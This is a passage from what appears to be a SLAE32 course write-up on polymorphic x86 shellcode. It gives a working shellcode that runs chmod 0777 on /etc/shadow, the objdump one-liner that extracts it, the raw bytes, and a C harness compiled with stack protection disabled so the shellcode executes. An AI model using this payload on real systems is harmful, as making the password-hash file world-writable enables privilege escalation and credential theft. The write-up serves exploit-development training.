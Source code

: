 Now the changes, that were made in the polymorphic version, are explained. The addresses that hold the string "//etc/shadow" aren't directly pushed on the stack, but they are saved in locations pointed by `EBX` with `mov` instructions. Also, the clear of the `ECX` register wasn't necessary, so that instruction is removed.

### Testing the chmod polymorphic shellcode

Now we need to compile `chmod.nasm` with the bash script `compile.sh` and extract the shellcode from the generated executable with the `objdump` one-liner.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/1_chmod$ ./compile.sh chmod
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/1_chmod$ objdump -d ./chmod | grep '[0-9a-f]:' | grep -v 'file'|cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc0\x50\xb0\x0f\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x63\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x2f\x65\x74\x83\xec\x0c\x89\xe3\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80"
```

After that, we modify the `shellcode.c` with the shellcode from `objdump`, which checks if a shellcode is working.

The whole `C` program is the following:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x31\xc0\x50\xb0\x0f\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x63\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x2f\x65\x74\x83\xec\x0c\x89\xe3\x66\xb9\xff\x01\xcd\x80\x40\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
}
```

Now we need to compile the `C` program, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/1_chmod$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
